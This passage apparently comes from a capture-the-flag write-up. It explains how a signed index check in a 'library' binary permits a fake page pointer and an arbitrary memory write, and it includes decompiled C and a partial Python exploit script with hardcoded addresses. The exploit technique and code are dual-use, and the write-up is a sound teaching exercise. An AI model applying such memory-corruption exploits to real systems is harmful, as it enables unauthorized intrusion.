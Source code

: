 ```C
      }
      else
      {
        result = read_page();
        v3[2] = (int)result;
      }
    }
  }
  return result;
}
```

As you can see, a signed compare is used to determine if the page exists. This allows us to select a page BEFORE the actual book.

The page structure looks as follows:
```C
struct page {
  char *content;
  char font[48];
};
```

So if we can provide an index to points to data we control, we'll have an arbitrary page pointer. In turn, the following code allows us to corrupt memory:

```C
        puts((int)"font: ");
        read_0(page->font, 48);
        puts((int)"content: ");
        read_0(&v8, 1024);
        v5 = strlen_0((int)&v8);
        if ( v5 <= strlen_0(page->content) )
        {
          v6 = (_BYTE *)page->content;
          v7 = strlen_0(page->content);
          result = (page *)read_0(v6, v7 - 1);
        }

```

As long as the string we provide is shorter than the string at the pointer we control. 

I initially went for corrupting the library itself, and ended up with a pretty complicated way of overwriting code using a chain of fake structures. 

While writing this, I've simplified the approach to simply write once by creating a fake page. This is the relevant python code:

```python

menu()
x.sendline("library")

# Setup a fake page pointer within the title of our first book
# write_target points to a function epilogue.

list_help = 0x44009cc
read_shift_sp = 0x440064c

write_target = read_shift_sp
print "[*] Write target: ", hex(write_target)

fake_page_ptr = 0x06400818 + 12
title = "AAAABBBB" + p32(fake_page_ptr) + p32(write_target)
assert len(title) < 128
add(title.ljust(128,"X"), [])

```
